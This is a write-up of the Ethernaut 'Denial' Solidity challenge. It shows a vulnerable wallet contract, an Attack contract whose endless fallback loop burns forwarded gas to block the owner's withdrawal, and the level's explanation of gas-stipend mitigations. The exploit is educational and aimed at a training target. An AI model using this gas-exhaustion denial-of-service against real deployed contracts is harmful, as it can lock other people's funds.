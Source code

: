 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg">

# Target Review Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Challenge's message:

> This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner. If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

# Subverting

```solidity
pragma solidity ^0.8.0;

import './Denial.sol';

contract Attack{

    Denial target;

    constructor(address payable _target){
        target = Denial(_target);
        target.setWithdrawPartner(address(this));
    }

    fallback()external payable{
       while(true){

       }
    }

}
```

See [in etherscan](https://sepolia.etherscan.io/tx/0x2e4dd5819c5d06e11197c1f502769994f066dbfd3ddcd1f0a1cdfcc85e63d15d).

Ethernaut's message:

> This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified. If you are using a low level call to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example call.gas(100000).value(). Typically one should follow the [checks-effects-interactions](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise. Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.





